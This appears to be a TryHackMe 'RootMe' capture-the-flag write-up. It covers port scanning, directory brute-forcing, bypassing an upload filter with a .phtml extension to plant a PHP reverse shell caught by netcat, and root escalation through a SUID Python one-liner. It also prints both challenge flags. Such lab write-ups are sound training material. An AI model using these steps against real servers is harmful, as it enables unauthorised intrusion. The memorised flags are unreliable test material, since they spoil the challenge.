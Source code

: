 
# RootMe - TryHackMe Challenge Write-Up

**Machine:** RootMe  

---

## Task 1: Deploy the Machine

- Deploy the machine using the TryHackMe platform.

---

## Task 2: Reconnaissance

### 1. How many ports are open?

Determine the number of open ports using nmap by running the following command:

```bash
nmap $IP
```

**Result:**  
There are 2 open ports:  

- Port 22 (SSH)  
- Port 80 (HTTP)

### 2. What version of Apache is running?

'-sV', used for apache detection, use -p for specifying ports

```bash
nmap -sV -p 80,22 $IP
```

**Result:**  
- Apache Version: `2.4.29`

### 3. What service is running on port 22?

The service running on port 22 is **SSH**.

### 4. Find directories on the web server using the GoBuster tool.

Use the **GoBuster** tool to brute-force hidden directories using WORDLIST: common.txt from github

```bash
gobuster dir --url $IP --wordlist $WORDLIST_PATH
```

**Result:**  
`/panel/` 

---

## Task 3: Getting a Shell

### 1. Find the user flag.

Navigate to the `/panel` directory. This appears to be an upload page.Testing for a **file upload vulnerability** by uploading different file types.

### 2. File Upload Bypass

- Uploading a `.php` file is blocked.  
- Try changing the file extension to `.php3`, or `.phtml`.  
- The server accepts the file with a `.phtml` extension (.php3 also accepted but not executable). This allows us to upload a **PHP reverse shell**.

### 3. Getting Reverse Shell Access

- Use the [pentestmonkey PHP reverse shell script](http://pentestmonkey.net/tools/web-shells/php-reverse-shell).
- Upload the script to the web server with the `.phtml` extension.
- Setting up a listener on the local machine using Netcat:

```bash
nc -lnvp 1234
```

- Executing the uploaded script by visiting the following URL:

```bash
http://$IP/uploads/<REV_SHELL_SCRIPT.phtml>
```

**Result:**  
Reverse shell connection recieved.

### 4. Finding the User Flag

The user flag is located in `/var/www/user.txt`. Searching for the file using the `find` command:

```bash
find / -name user.txt 2>/dev/null
```

**User Flag:**  
```
THM{y0u_g0t_a_sh3ll}
```

---

## Task 4: Privilege Escalation

### 1. Search for files with SUID permission.

Files with **SUID** permission can be exploited for privilege escalation. Searching for files having SUID bit:

```bash
find / -perm -u=s 2>/dev/null
```

**Result:**  
A suspicious file: `/usr/bin/python`

### 2. Exploit Python SUID

Python has the SUID bit set and is owned by root. According to [GTFOBins](https://gtfobins.github.io/), this can be exploited to escalate privileges.

Run the following command to gain a root shell:

```bash
python -c 'import os; os.execl("/bin/sh", "sh", "-p")'
```

**Result:**  
Aquired a **root shell**.

### 3. Finding the Root Flag

The root flag is located in the root user's home directory `/root/root.txt`.

**Root Flag:**  
```
THM{pr1v1l3g3_3sc4l4t10n}
```

---

## Summary

- **Ports Open:** 22 (SSH), 80 (HTTP)  
- **Apache Version:** 2.4.29  
- **Service on Port 22:** SSH  
- **Key Directories Found:** `/panel/`, `/uploads/`  
- **User Flag:** THM{y0u_g0t_a_sh3ll}  
- **Root Flag:** THM{pr1v1l3g3_3sc4l4t10n}
